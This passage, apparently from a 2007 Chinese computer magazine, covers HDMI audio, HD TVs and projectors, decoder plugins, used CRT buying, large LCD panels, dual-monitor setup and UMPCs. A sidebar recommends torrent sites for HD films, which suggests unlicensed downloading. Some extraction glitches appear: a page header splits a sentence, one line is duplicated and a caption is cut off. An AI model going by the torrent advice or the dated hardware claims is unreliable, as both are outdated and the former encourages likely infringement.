同，PC多媒体中的音频技术并不纯粹支持标准的媒体文件，各种音频特效和3D音效定位同样不可忽视。也正是因为这一因素，很多音频技术在PC多媒体领域的应用都得不到普及。另外，音频应用本来就有较强的主观性，而模拟音频比起纯数码传输总是更加让听众感到习惯。另一方面，HDMI音频传输的发展方向也令人感到困惑。还是以与我们关系最为密切的PC多媒体平台为例：HDMI接口一般由显卡提供，因为普遍认为今后的发展潮流是显卡和声卡“合二为一”。但是，这种整合难道真的是发烧友所需要的吗？对于喜欢高清应用的电脑玩家来说，用HDMI来传输音频岂不是意味着创新Audigy 4或X-Fi等声卡彻底闲置？

至于已经被认为是潮流所趋的集成声卡，HDMI传输音频时必须将集成声卡输出口接到带HDMI显卡的SPDIF口。换句话说，经过这一层的转换之后，其音质效果已经大幅度降低，完全没有数字化的意义。要知道，电脑机箱里的电磁干扰对音频的影响是多大？难不成高端声卡直接输出去音箱的效果比转接HDMI输出效果要差？最后，我们还得质疑音箱厂商对于HDMI的态度，因此HDMI的音频应用现在看来完全是空中楼阁。

通过以上讨论，我们应该能够比较清楚地认识到HDMI接口的优势。事实上，我们可以把HDMI理解为“加强型的DVI + 音频传输”，这项技术最大的贡献在于简化连接线缆，让视频传输和音频传输合二为一，因此HDMI非常适合笔记本电脑。然而，目前HDMI还略显超前，特别是高接口带宽实际上并不能起到实质性作用，而音频传输也在PC多媒体平台遇到不少阻力，其发展势头肯定不如HiFi家庭影院领域那么顺利。对于用户来说，我们认为选择带有DVI接口的产品就足够了，因为当前主流LCD电视机大多支持DVI接口，而且配合LCD显示器也更加方便。当然，如果显卡或是整合主板能够直接提供HDMI接口，那是再好不过了，只是没有必要将HDMI作为衡量是否符合高清时代的硬性标准。

#### 七、融入高清世界：无处不在的高清

##### 1. 轻松易得的高清：高清液晶电视

并不是所有采用LCD或是PDP技术的电视机就一定属于高清。高清技术说复杂也复杂，但是说简单也十分简单。直观理解，高清便是以高分辨率传输的视频，此时对编码解码以及高分辨率显示提出极高的要求。现在，很多40英寸以上的液晶电视号称高清，但是分辨率只有1366×768，显然属于720p级别的产物，应对1080p总有些力不从心。因此，选择拥有1920×1080分辨率的高清液晶电视是很有必要的。至于能够达到这种分辨率的产品，我们反倒不用过于关注可视角度、对比度以及响应时间等指标，因为高分辨率的新一代液晶面板在综合品质上肯定比较让人放心。对于理智的消费者，我们认为现在国产高清液晶电视显然有着更好的性价比。如图13，1920×1080超高分辨率的高清液晶电视。



##### 2. 自娱自乐的高清：HDV与高清投影仪

拿起DV自己当导演已经成为一种时尚。然而在体验数字化影像的同时，我们也不免对传统产品感到些许遗憾，毕竟DV的清晰度并不能满足高端用户的需求。在高清数字电视以及大屏幕LCD的普及趋势下，DV已经成为最大的瓶颈。为了改变这一现状，多次参与DV标准制定的索尼又一次站在改革前端，率先推出HDV1080i标准的新款HDR-FX1 Handycam，随后又推出了HC1E，将个人数码摄影带向全新的高度，真正实现电影级效果的自娱自拍。此外，JVC以及佳能也陆续推出了HDV1080i标准的高清DV，将高清画面捕捉与高清画面回放有机地结合在一起。

与专业级DV相比，个人用户所采用的MiniDV标准实在存在太大的差距。对于绝大多数DV用户而言，甚至采集后整体画质只能达到VCD级别的水准，即便是少数高端机型也只能达到普通DVD水准，与真正的高清画面相去甚远。是什么阻碍了我们的应用？感光器技术仅仅是一个方面，存储技术与标准才是关键！HDV1080i标准的视频可以达到1440×1080分辨率，远远高于普通DV可怜的720×576（PAL）分辨率。索尼HDV最终可以与高清电视或是PC显示器相结合，再加上16：9的宽屏拍摄模式，高清画面也能轻轻松松地DIY。

投影仪也逐渐成为家庭AV设备之一。在高清电视普及的年代，人们自然开始对投影仪提出了高清化的需求。以索尼为例，现在推出了VPL-VW100高清投影仪，并且达到了1080p高清标准。VPL-VW100配备了ADVANCED IRIS技术，对比度高达15000：1，亮度为800流明。当然，松下、JVC、夏普等品牌的高清投影仪也是很不错的选择。如图14，高清投影仪让家庭影院又多了一种选择。



##### 3. 全家人的高清：高清影院

在近期举行的“索尼高清数码节活动”上，索尼（中国）有限公司消费电子营业本部副总经理奥田利文先生向大家介绍了索尼的“高清世界”战略：索尼已经将高清链条中的每个终端连接在了一起。事实上，索尼的HD World的确已经迈开坚实的脚步，以各个领域的先进技术带给用户极佳的视觉享受。如图15，PS3游戏主机也是高清应用的典型代表。



喜欢玩游戏的孩子将能在PS3游戏机中体验到高清游戏的魅力，通过HDMI高清接口连接高清液晶电视，这是何等美妙的享受；作为蓝光存储领域的主力推广厂商，索尼的蓝光影碟机也即将普及，届时配合高清液晶电视又将是一对绝佳的组合；高清影院也依然是全家人周末放松的最佳方式之一，完美的音响效果结合震撼的高清画面，这又将是新一代家庭影院的标准。

#### 八、软件设置：70%的技巧在这里

在很多高清论坛中，我们经常发现不少用户发帖询问：为什么自己的配置和其他人几乎一样，CPU、显卡、内存和硬盘都是同档次的，但是别人解码H.264@1080p很流畅，而自己播放同样的视频却在忍受幻灯片的折磨？其实，软件设置有很大的关系。播放高清视频绝对不是一个“影音风暴”就能解决的，还需要各种插件。首先，我们把软件插件分为以下三类，目前相应的选择也有很多。

| 视频插件名称 | 评价 |
|---|---|
| CyberLink DTV Video Decoder | PowerDVD中提取出的，用的人很多 |
| Moonlight-Elecard MPEG2 Decoder | 效果非常好，缺点是不支持硬件加速 |
| NVIDIA Video Decoder | GF6/7显卡配套解码插件，效果也很好 |
| Sonic Cineplayer Mpeg2 Decoder | 速度快画质也不差，低端机器首选 |
| Dscaler MPEG2 Video Decoder | 缺点是不支持硬件加速 |

| 音频插件名称 | 评价 |
|---|---|
| AC3 FILTER | 为很多播放软件默认设置，效果一般 |
| CyberLink Audio Decoder | 从POWERDVD中提取，效果很好 |
| NVIDIA Audio Decoder | 推荐配合NVIDIA Video Decoder使用 |
| Moonlight Odio dekoda | 可以解AAC音频 |

| 分离器插件名称 | 评价 |
|---|---|
| Moonlight-Elecard MPEG2 Demultiplexer | 兼容性较好，强烈推荐 |
| Gabest MPEG2 Demultiplexer | 一般播放软件自带，上面的不行就用这个 |

大家可以根据自己的情况来选择以上三大类插件。对于主流配置结合ATI显卡或是集成显卡，建议使用“CyberLink DTV Video Decoder+ CyberLink Audio Decoder+ Moonlight-Elecard MPEG2 Demultiplexer”。当然，最简单的方式还是直接安装PowerDVD，这是目前相当不错的综合类播放软件。至于选择其它插件的用户，可以再结合KMplayer或者影音风暴等播放软件。

> < 心知肚明 >

高清电影一般容量很大，因此建议大家以寻找BT种子为好，指望哪个服务器长期提供HTTP下载服务是很困难的。现在，http://www.hd-tv.cn (HDTV中国网) 以及http://silu.info (思路) 是公认的好网站，大家可以去其论坛下载相关内容。

## 视野无极限 ——超级显示系统全攻略



◆文/方成亮

大屏幕画面的震撼感是所有人都无法拒绝的。目前，业界为家庭用户所提供的显示方案已经有很多种，无论是传统PC领域的显示器，还是最新的投影技术，这些都带给我们充裕的选择空间。另一方面，PC与大屏幕显示设备的融合也已经是大势所趋，因此如何利用好双屏显示技术也值得我们关注。对于喜欢欣赏高清大片的用户来说，如今装配PC已经不仅仅是注重性能，超级显示系统同样值得大家倾入资金。

#### 一、廉价的高清：高画质大屏幕CRT显示器

由于三菱和索尼两大“珑管”厂商在几年前就开始停产显像管，因此目前主流市场根本无法找到珑管显示器的踪影，反倒是二手市场还有大量昔日贵族。与大屏幕LCD相比，这类产品最大的优势便是低价格，而且色彩表现也非常出色。如图1，二手市场的大屏幕CRT显示器货源充足。



##### 1. 色彩无可挑剔：LCD最佳替补

尽管LCD凭借无闪烁等诸多优点吸引了不少人的目光，但是成熟的CRT自有其魅力。在色彩数量方面，CRT超出LCD很多，因此图形设计用户几乎都选择CRT。如果说LCD显示器最大的优势在于聚焦效果，那么珑管CRT也可说是这方面的高手，完全超越普通的千元级纯平CRT。此外，酷爱3D游戏的玩家也更加倾向于珑管CRT，毕竟游戏时看到LCD显示器的“余辉”总会让人感觉非常不爽。目前，二手珑管CRT显示器市场基本以19英寸以上的大屏幕产品为主，几百元就能拥有一个“大面子”的高端显示器，其诱惑力是毋庸置疑的。

二手市场中有一个非常有趣的现象，即几乎所有的15英寸CRT显示器都是国内用户淘汰下来的产品，而17英寸以上CRT显示器以日系品牌的国外泊来产品为主。相对而言，最值得选购的应当是用户淘汰下来的19英寸以上CRT，这类显示器往往使用时间在五年以下，应该还能继续服役很长一段时间。15英寸CRT因为使用时间较长而显得性价比一般，而且较小的视野范围以及与17英寸CRT并不大的价格差距令它成为二手市场中的冷门。如图2，CRT显示器依然是部分专业用户的首选。



##### 2. 大屏幕珑管选购真经：如何辨别显像管

在购买二手珑管CRT显示器时，对于显像管的辨别非常重要，因为这可是CRT显示器的心脏。目前，二手市场上普遍存在冒充珑管或是大幅度调整显像管电路等问题，这是大家所要特别避免的。

-   1. 显像管翻新的珑管不可买

不少珑管显示器的货源在国外，因此在收购时或运输中容易造成屏幕表面划痕。不法商家为了能让这样的显示器卖个好价钱，往往会先对显示屏进行深度打磨将划痕磨平，然后再进行非常细致的抛光。其翻新原理和光盘翻新类似，等抛光完毕再看显示屏时，你就会发现其已和新的差不多了。

但是这样的做法会给用户带来很大的安全隐患，因为显示屏的玻璃壁厚是经过厂家设计人员精确设计的。如果玻璃壁经打磨抛光变薄的话，不但会使有害射线强度增强，而且还有可能会发生显像管爆炸事件。另外，这样做还会彻底损坏显像管的表面涂层，边角聚焦也会带来影响，如果用户长期使用这样的显示器的话很有可能造成视力下降。如何分辨珑管CRT是否经过打磨抛光呢？方法不是很困难，只要细心就会发现被打磨过的显示屏表面用手摸起来有凹凸不平的感觉，原因是因为无论怎么打磨也不会将屏幕打磨均匀，尤其是在厚度方面。

-   2. 警惕第一代珑管的老化现象

第一代珑管显示器产生时间较长，因此老化现象也相对明显。但是，由于珑管采用的电子枪有着较强的可调整范围，所以商家在调整电路后可以较好地弥补，只是这也仅仅是“回光返照”，并不能从根本上解决问题。如果发现显示器刚开机时字符模糊，然后渐渐清楚，这表明显像管内部已经老化，应该尽量避免这类产品。显像管内阴极管由灯丝加热后才可以打出电子束，当阴极管开始老化的时候，加热的过程变慢了，所以在刚开始的时候，没有达到标准温度的阴极管，无法射出足够的电子束，也就导致没有足够电子束轰击荧光屏而不清晰。如果显示器出现偏色（一## 2007年热点技术与应用

（一般是偏红或者偏蓝），那么应当立即调整RGB为相同值。倘若还是无法改善，说明阴极管已经严重衰竭，其寿命令人十分担忧。

珑管CRT的调节功能一般非常丰富，因此即便是阴极管部分老化，还是能够通过RGB调整来解决。所以，很多商家在客户验机时总是反复调整，譬如RED和BLUE相差很多时才能不偏色，这其实已经是一种故障，建议大家不要购买这类产品。除了仔细地查看，大家还可以利用灵敏的耳朵。显示器正常工作时应该是没有声音的，如果你听到异常声音就不要购买。但某些中高档显示器开机时会有“咔”的一声，此时不要担心，那是继电器工作，属于正常状态。

###### (3) 假冒珑管的鉴别

珑管技术的优势的确非常明显，索尼的单枪三束和三菱的三枪三束技术都可以在边角聚焦方面展现出非常完美的境界。但是，一旦聚焦部分的电子枪老化或是经过维修，那么势必造成一些影响。因此，建议大家可以仔细观察显示器上的阻尼线是否连续且平整，这是辨别珑管显示器聚焦效果的最佳途径。要是大家发现显示器根本连阻尼线都没有，那么则肯定是日立显像管或者中华管，品质比起珑管就逊色不少。至于LG纯平和三星丹娜管，基本不会出现在20英寸以上的大屏幕CRT，更不会被富士、IBM、SUN、DELL等品牌的图形工作站所采用。

既然我们购买珑管CRT就是冲着其不错的聚焦效果，那么这方面的表现自然得特别关注。焦距是电子束打在屏幕荧光层上的准确程度，聚焦点越小则清晰度越高。由于电子枪到屏幕各个位置的距离和角度不相同，就需要专门的电路来控制。聚焦好坏是一台显示器的关键指标，通常老化的显示器容易在聚焦上出现偏差。此外，商家总是喜欢用鲜艳的图片来展示，但是这根本无法凸显聚焦存在瑕疵的产品。具体测试方法应该是打开文本文件，再把字调到最小或把分辨率调到最高并且开满屏，看一看字迹边角是否清楚。

##### 3. 关键的珑管镀膜

显示器没有了镀膜就好像地球没有臭氧层，不仅光线折射会导致用户眼睛酸痛，屏幕的亮度以及色彩纯度都会受到很大的影响。但是，镀膜非常脆弱，在运输中稍有不慎便会损坏。珑管显示器一般使用的镀膜较为高级，因此带有原装镀膜的珑管一般要比非原膜的产品贵上100～200元，这完全是值得的。如图3，拥有原装镀膜的SONY G520。

平心而论，现在市场上真正的原装镀膜珑管CRT并不多，少数国内用户淘汰下来的产品才可能拥有完整的原装镀膜。但是，商家给珑管CRT翻新时所采用的贴膜也非常不错，最常见的便是3M贴膜，此时也能起到很好的防反射效果，和原膜相比已经差距非常小。总之，珑管显示器没有镀膜是万万不行的，不管多便宜都不能购买。而如果是采用贴膜，那么也可以接受，这反而是大家还价的不错的借口呢。至于原膜和贴膜的鉴别，最简单的方法便是看四角有无明显的擦拭痕迹，毕竟商家贴膜的工艺不可能和工厂贴膜相提并论。

#### 二、大屏的选择：透视超大屏幕LCD显示器

自从LCD技术诞生以来，有关色彩表现力以及可视角度的争议就没有停止过。但是，面对大屏幕的诱惑，LCD的发展动力却非常充足。就在22英寸刚刚进入2000元价格之后，24英寸以上的超大屏幕LCD开始浮出水面。那么，未来超大屏幕LCD显示器将会如何发展？大面积高分辨率显示有什么优势？大尺寸液晶面板又表现如何？面对这些关键问题，我们不妨来深入了解一下超大屏幕LCD显示器。

##### 1. 最佳平衡点：27英寸宽屏前途最为看好

19英寸宽屏一度是LCD市场的绝对主流，但是其分辨率表现却并不能令人满意。由于1440×900分辨率在纵向显示方面的不足，因此浏览网页时感觉并不是很方便，远不如19英寸标屏的1280×1024。此外，19英寸宽屏的横向分辨率也显得有些尴尬，在排布两个IE窗口或者Word窗口时略为小了一些，对应720p/1080i格式的高清视频也有些吃力，严重限制了宽屏应用。毫无疑问，在经历了19英寸宽屏时代之后，我们对于宽屏技术以及大屏幕显示有了更加理性的认识。

###### (1) 20英寸宽屏带来的“教训”

正是限于19英寸宽屏的不足，20英寸宽屏改用1680×1050分辨率，足足比19英寸宽屏的1440×900标准分辨率多出34%。但是问题也随之而来，因为此时并不大的可视面积要承担如此高的分辨率，最终只能导致点距只有0.258mm，甚至比19英寸宽屏的点距还要小。过小的点距令字体显示效果很不理想，长时间使用对保护视力很不利。此外，即便是调整字体大小，也难以很好地保持在最佳比例。如图4，20英寸宽屏LCD可谓昙花一现。

###### (2) 30英寸点距最有诱惑力

反观现在最流行的22英寸宽屏，由于其分辨率同样是1680×1050，但是屏幕对角线长度达到22英寸，因此拥有点距更大。但是即便如此，其点距表现依然算不上理想，尤其是在同时打开两个Word文档时，给用户的感觉也并不舒服。24英寸则被认为是2007年下半年的主流新品，但是由于其分辨率相对于22英寸有所提高，因此点距反而下降到0.27mm。就在我们感到悲观的时候，27英寸LCD突然站了出来，其0.303mm被普遍认为是最适合观看文字的，而且在超大可视面积的支持下也丝毫不会显得画面粗糙。如图5，近期大降价的22英寸宽屏LCD。

毫无疑问，27英寸宽屏在分辨率以及点距方面取得了最佳的平衡点，这也注定其成为今后几年内的主流之选，好比CRT中17英寸纯平的地位。27英寸宽屏已经受到众多显示器厂商和液晶面板厂商的看好，因为未来更大的30英寸很可能并不适合桌面显示器，否则过大的可视面积。

| 最佳分辨率 | 点距   |
|------------|--------|
| 19宽屏     | 0.285mm|
| 20宽屏     | 0.258mm|
| 22宽屏     | 0.282mm|
| 24宽屏     | 0.270mm|
| 27宽屏     | 0.303mm|
| 30宽屏     | 0.251mm|

##### 2. 大尺寸液晶面板分析

###### （1）MVA面板抢占市场

众所周知，液晶面板的性能基本决定了LCD的综合表现，因此我们对于24英寸以上的大尺寸液晶面板格外关注。奇美光电是第一家提出生产24英寸宽屏面板的厂商，同时也是目前为止为数不多量产的厂商。奇美光电的24英寸宽屏面板采用MVA技术，支持16.7M真彩，亮度可分为300cd/m²、420cd/m²或500cd/m²，对比度高达1000:1，可视角度为170°/170°，响应时间为灰阶8ms。毫无疑问，这样的技术指标算不上出类拔萃，几乎和上一代MVA技术一样，但是更大的尺寸显然有着极为出色的诱惑力。如图7，采用友达光电MVA面板的24英寸宽屏。

###### （2）TN面板进军24英寸以上市场

相对而言，最最值得关注的还是三星B-TN III面板。以往，我们总是认为TN面板受制于其技术原理而最大只能实现22英寸，而现在三星已经将其应用在24英寸LCD上，未来迈向30英寸也只是时间问题。三星将新一代TN面板命名为B-TN III，这是B-TN II类型面板的延续与发展，不过其性能以及技术指标比起B-TN II已经有了本质的差别。B-TN III面板的最大进步在于基于TN+film技术实现了16.7M真彩显示，结束了TN+film不能达到16.7M色的历史。不少用户认为TN类面板一定是6bit，B-TN III是假冒真彩，但是这完全是一种误解。其实，使用TN类面板结合8bit驱动IC的显示器也是8bit LCD，完全能够实现16.7M色，只不过其可视角度还是比较一般，依然只有160度/160度。如图9，采用

###### （3）未来走势分析：24英寸LCD如何定位

按照很多业内人士的预测，LCD价格走势应当是节节败退式地一路下调，毕竟随着液晶面板技术与产能问题彻底解决，LCD的整体成本将会比CRT显示器更低。然而最近液晶面板巨头开始发出不同声音，暗示液晶面板价格即将上调，甚至有可能就此进入上升通道。友达光电副总经理表示，经过前一阶段的激烈降价，需求明显攀升。液晶面板厂商并不愿意看到价格无限制地下调，因此出现这一论调并不让人感到奇怪。然而需要明确的是，液晶面板厂商并不像内存芯片厂商那样集中，在产量完全释放的前提下，很难联合手控制价格。目前开始提高价格的仅仅是日韩厂商，国内厂商仍旧十分谨慎。更为重要的是，显示器厂商并不希望价格上调，因为如今的市场现状已经聚集人气，一旦价格反串将会使显示器市场退回到利润更低的小尺寸LCD时代。通过以上分析不难看出，24英寸宽屏的大降价已经不远，预计年底便可在3000元以内买到主流产品。至于更大的30英寸LCD，由于其可视面积已经接近于LCD TV，所以可能存在一定量的缺货，再加上高分辨率要求，因此其普及之路就要遥远得多。如图11，其实30英寸LCD不会让用户感觉桌面太大。

#### 三、双倍视野：组建双显示器系统

这里，我们以nVIDIA的显卡为例来向大家介绍如何组建双显示系统。对于其它的双头显卡，组建方法基本是一致的，大家可以举一反三。首先当然是把两台显示器都连接到显卡上，这对于大部分全接口的显卡而言非常轻松，因为DVI接口完全可以转接为普通CRT接口。如果你的两台显示器都没有DVI端口，需要使用一个DVI2CRT转接头。如图12，帮助兼容普通显示器的DVI2CRT转接头。

一般支持双头输出的显卡都会提供这个小配件。nVIDIA显卡的双显示器功能通过ForceWare中的nView单元来实现，因此必须先安装官方的最新版驱动。

由于使用了两个RAMDAC，因此nView可以让两个显示器在不同分辨率、刷新率和色彩深度下工作，这对于拥有两个性能相差很多的显示器的用户而言是极其重要的，毕竟很多个人用户在使用双显示器模式时，都考虑到老产品升级的问题，此时新老两款显示器的性能差距肯定十分明显。针对用户不同的需求，我们可以让nView工作在各种模式下，nView总共支持复制（克隆）、水平/垂直跨越和双屏显示这三种模式。如图13，在nView菜单中选择双显示器工作模式。

最常用的莫过于克隆模式了，它可以让两台显示器同时显示相同的画面，这对于商业场合的演示是非常有用的。如图14，克隆模式的双显示器工作。需要注意的是，使用这一功能前必须先检测显示器，并确定使用的是传统CRT还是LCD液晶屏。由于克隆模式的使用非常简单，因此我也不多介绍了。相对克隆模式而言，似乎还是扩展模式更为实用，毕竟它可以有效地扩展我们的视野。让人感觉十分贴心的是，nView允许用户将两个显示器垂直或是水平放置，这样给了用户更大的自由度。具体来说，nView的扩展模式分为“放大”和“多窗口”两种方式，当我们使用“放大”功能时，任何Windows窗口都可以局部放大，满屏地显示在两个显示器上。

大”功能时，任何Windows窗口都可以局部放大，满屏地显示在两个显示器上。当然，要实现这项功能，我们必须在控制面板下nView桌面管理中选中“使窗口横跨多个显示器”。如果你觉得拉大窗口的视觉感并不好，那么nView支持于菜单自动显示在第二个显示器上，这对于一些复杂的应用程序而言还是相当有用的。由于nView的这项功能会占据不小的内存，频繁的切换会占用不小的系统资源，因此建议大家选中“启用应用程序定位内存”。

双屏显示方式也是非常实用的，你可以让任何一个Windows窗口在两个显示器中来回切换。如果你经常同时运行多个程序的话，那么一定会感觉这一功能很好用，因为它等于无形中将你的桌面空间扩展了一倍。此外，如果你用过nVIDIA以往的双头显示功能的话，一定会发现当鼠标跨过两个分辨率不同的显示器上移动时，感觉非常别扭，因为鼠标的移动速度与屏幕分辨率关系很大。为此，nView作出了相应的弥补，它可以让用户的这种感觉尽可能地减小。此外，当我们激活双显示器模式后，窗口的标题栏左边会多出一个“nView扩展”菜单，它可以将当前窗口随意移动到任何一个显示器或者虚拟桌面中。如图15，双屏模式下的窗口快速切换。

有些软件，如OICQ等在菜单下有“总在最前”这一设置，只要大家选中就可以保证该程序一直可见而不被其他窗口覆盖。但是并非所有的软件都有这一功能，不过好在nView为我们做好了一切。当我们通过“nView扩展”菜单设置“总在最前面”时，任何窗口都可以实现这一功能。

#### 四、超大屏幕震撼：家用投影仪

对于大多数消费者来说，一提起投影仪便会自然地联想到它只是在宽敞的会议厅或者小型电影播放室里使用。但近期以来，市场上家用投影仪新品不断出现，价格也逐步下调，正悄悄改变着人们头脑中“投影仪适合商用化”的看法。

##### 1. 家庭用户也能试验投影仪

继背投、等离子电视之后，在商业与教育行业应用得最为广泛的投影仪也日渐进入了普通家庭。与高端电视产品相比，投影仪则具有明显的长处，即画面大，亮度好，可兼容多种视频信号，且尺寸不受限制，重量轻。它能连结有线电视或普通电视，直接接收多达100套电视节目。还可以接收DVD等设备的视频信号和计算机信号。当与音响组合成多媒体家庭影院时，其视听效果与真正的影院无异。投影仪采用了液晶投影技术，其亮度、对比度、分辨率与高清晰度的电视机相差无几，而且具备了无辐射的优点。

松下、索尼、日立等国际品牌纷纷推出了万元左右的家用投影仪，而国内的清华同方、爱国者等品牌也相继有各自的产品推出。普通家庭对于投影仪的指标与产品质量往往缺乏一定的了解，极其容易在购买时造成投资浪费甚至于决策失误。在平板彩电逐渐占据客厅显示中心的同时，价格下调到1万元左右的家用投影仪也吸引了越来越多消费者的目光。如图16，投影机开始进入家庭用户。

##### 2. 家用投影仪的三大要点

###### （1）亮度与对比度要适中

亮度是衡量投影仪性能的一个重要指标。亮度是投影仪输出到屏幕上的光的强度，高亮度可以使投影仪投射图像清晰亮丽，不过亮度越高价格越贵。高亮度的投影仪在小环境（50平方米以下）中使用很刺眼，会使眼睛疲劳，长期观看会使眼睛红肿甚至出现眼病等情况。因此根据客厅面积的具体不同，选购的家用投影仪亮度一般都在500到1000流明之间。太高或太低都不太适合于照明灯光较暗的环境中使用。例如EPSON EMP-30数字投影仪，它的亮度只有800流明，是一款家庭影院级投影仪。

对比度和亮度是相关联考虑的一个因素。对比度是反映投影仪所投影出的画面最亮与最暗区域亮度之比，一般来说对比度越大，图像越清晰醒目，色彩越鲜明艳丽。如果对比度小，则画面显得暗淡灰蒙蒙的。亮度和对比度是相连的，如果亮度在500到1000流明，对比度应该在400：1左右即可。

###### （2）选择合适分辨率的投影仪

投影仪和数码相机、数码摄像机一样，品评它的画面质量都以分辨率为主。数字投影仪的分辨率分为XGA等级，即1024×768dpi；SVGA等级，即800×600dpi；SXGA等级，即1280×1024dpi，市面上较为常见的为前两种。需要注意的是分辨率越高，价格也越贵。另外还有一个兼容分辨率，兼容分辨率比其物理分辨率高一个台阶。和DC、DV一样，分辨率越高，投影仪的图像越清晰，价格也越高。虽然说SVGA的效果已经能满足家庭的需要，但是从长远的角度看，如果经济条件允许，最好购买物理分辨率为XGA标准的投影仪，它显示的效果更清晰、亮丽。如图17，高分辨率投影仪更加适合家庭用户。

###### （3）个性化功能深得人心

投影仪的一些特殊设计往往能够带来很大的便利。譬如，日立推出了无PC演示的投影仪，此时可真正实现脱离PC的投影仪应用，通过USB接口即能投射U盘以及移动硬盘中存储的各类文件，在播放HDTV时会显得非常方便。EPSON的EMP-1815中则集成了CF卡读卡器，可以实现脱离PC的演示，而且目前2GB以上CF卡以及1英寸微硬盘已经价格非常便宜，此时用于家庭视频娱乐播放显然非常方便。此外，超近距离投影短焦镜头的应用使得投影仪开始能在更近的距离投射出较大的画面，3M推出的超近距离技术产品能在19英寸距离内投射50英寸画面，方便了在狭小空间使用投影仪的家庭用户。

##### 3. 投影屏幕不容忽视

投影仪的屏幕无疑是除了投影仪之外最重要的产品，虽然说投影仪也同样可以在墙面等地方进行投影使用，不过这样在效果上则大打折扣，毕竟一个好的投影仪想要获得好的效果还是需要一个好的屏幕来配合的，特别是对于家庭用户来说更是如此！不过在实际使用过程中，不少用户对投影屏幕常常是一知半解，往往忽略其重要性所在。很多用户都错误地认为投影效果的好坏只取决于投影仪的性能，这样的认识是存在很大错误的，除了投影仪本身的亮度和对比度等标准外，屏幕对效果也起着非常重要的作用，一张好的屏幕能够使投影的效果增强20%左右。

投影屏幕表面上看起来并没有什么深度的技术，不过在其薄薄的那张屏幕上还是有不少门道的。首先，投影屏幕就可以分为软幕和硬幕两种，其中软幕分为普通软幕和玻璃幕两种。普通软幕是在专用的织物上喷以白色涂料，然后经简单加工后制成的，这种软幕的特点是价格便宜、视角广泛、图像色彩柔和、可多次卷起等优点。不过它也有一些自身的缺陷，比如其亮度增益较小，因此这种材质的投影幕一般用在中小范围的场所中，对于亮度不高的投影来说，很难显示出高水平的画面。而玻璃幕则是在专用织物的表面均匀地喷涂了微小的玻璃珠，虽然价格贵一些，但其视角广、亮度增益较高，只是这种类型的产品不宜经常卷起，否则上面喷涂的细小玻璃珠会有掉落情况，影响日后的投影效果。另外，还有银色珍珠投影幕，这种屏幕采用反射原理，投影幕可以提供最大辐射强度，就像镜子反射光一样。投影幕的增益和扩散是互相作用的，如果光线的扩散不足，就可获得较高的投影幕增益值，缺点是容易出现明显的亮斑。

##### 写在最后：

在HDTV流行的年代，选择自己的超级显示系统的确让人头疼。其实，我们完全可以放开眼光，譬如二手市场大屏幕CRT珑管显示器，又譬如传统商务领域的投影仪，甚至是大屏幕的LCD显示器，这些都可以与家庭AV娱乐相结合。毕竟，PC和AV已经没有什么明显的界限，拥有一款超轻显示设备，我们的视频娱乐才能真正变成一种享受。■

### UMPC选购指南与应用技巧
◆文/龚师傅

在笔记本电脑和智能手机逐步普及后，UMPC是现在广受关注的热门产品。目前系统讲述UMPC的文章尚不多见，不少朋友对此还感觉比较陌生，本文将详细为大家讲述UMPC的概念、用途、选购等相关话题，相信对大家选购和使用UMPC是有帮助的。

#### 一、UMPC概述

##### 1. UMPC的基本概念

从1985年第一款笔记本电脑诞生之日起至今，电脑就没有停止过向轻薄便携的方向发展；随着近年来英特尔迅驰技术“无线、轻薄”的推广，轻薄更是成为笔记本电脑发展的方向之一。微软也一直声称要推出一款全能型掌上数字设备，它可以看电影、听歌、看视频、玩游戏，还具有GPS导航等等功能。其实这就是我们现在提及的UMPC。

所谓UMPC就是Ultra Mobile PC的缩写，翻译成中文是：超便携移动个人电脑。这个概念的提出来源于IT行业两巨头：微软和Intel，微软叫做Origami计划，Intel则称它为UMPC，也有人认为UMPC就是体积缩小了的Tablet PC。一般来说，UMPC都配备了7英寸以下的显示屏，重量则在800g以内，其他硬件配置基本能达到入门级笔记本电脑的水平，内存512MB以上，硬盘容量为40GB左右，但CPU频率通常较低，不过基本能保证主流操作系统的流畅运行，此外还支持蓝牙、Wi-Fi等无线连接。根据需要，厂商还可以自行添加GPS、指纹识别、电视卡、摄像头以及读卡器等设备。

目前移动式计算机硬件体积日渐小型化，用户需要一个可以很方便拿在手上就可以做任何事情，特别是在娱乐生活方面，比如音乐、电影、浏览资讯等。UMPC之所以会成为一个热门产品，原因之一是两大PC产业核心企业的推广，微软公司继力挺平板电脑之后，又推出Origami计划，在软件与硬件方面与厂商合作，支持英特尔发展UMPC相关技术。UMPC从2006年初问世以来，立即成为市场关注的热门产品，在微软、Intel的力推下，得到了不少著名IT厂商支持，如Samsung、Sony、Asus、方正等，未来随着技术不断升级换代，UMPC也许将取代PDA和平板电脑，成为消费者最佳的随身手持设备。



##### 2. UMPC优劣及竞争对手

出色的便携性和软硬件兼容性是UMPC最直接最根本的优势所在，其体积小巧，使得我们可以像使用一般PDA一样轻松将UMPC塞在包包里；UMPC相对一般尺寸笔记本来说明最大优势是超强的便携性。平板电脑推广的困难就在于其太大太重，长时间拿在手上实在太重了。而UMPC大多安装通用性极佳的Windows系列操作系统，可以像使用一般电脑一样安装各种应用软件；而通用的VGA、USB、CF等接口，也让UMPC可以兼容各种普通硬件设备。但是UMPC也存在不少弱点：首先是电池的续航能力普遍偏低，无法满足商务人员移动办公的需求；二是其外形尺寸有点半大不小，对于大多数用户而言其体积太小，使用上有诸多不便；而又比PDA大了很多，有人又认为其便携性不佳。第三面对消费电子市场，UMPC的娱乐功能和时尚新颖的外观无疑是其产品亮点，但是1000美元左右的昂贵价格使其不可能大范围普及。因此当前UMPC仅能凭借其娱乐功能吸引一部分追求时尚的高端消费者，需求十分有限，开拓市场难度很大。


UMPC目前的竞争对手主要有两个，一是功能越来越强大的PDA及智能手机，比如两年前推出的Dopod 900自带键盘，可旋转，屏幕分辨率达到VGA，CPU主频也高达520MHz，而且支持3G，功能已经相当强大了，而现在新推出的智能手机产品，如诺基亚的E90，在功能上已经直逼低端UMPC，而在便携性和电池续航能力上则超越了UMPC。不过这类产品最大弱点是软硬件兼容问题，UMPC采用完整的x86架构，拥有庞大的软硬件基础，这是其在与“超级PDA”的竞争中的最大优势。第二个竞争对手就是体积越来越小的普通笔记本电脑；笔记本电脑在性能和使用舒适度上，毕竟要大大好于UMPC。现在有些超小笔记本电脑的体积已经比UMPC大不了多少，这类产品也将抢走不少UMPC潜在用户。不过从另一个角度看，也意味着“超级PDA”、超小笔记本电脑和UMPC的界限越来越模糊。



##### 3. UMPC未来发展方向

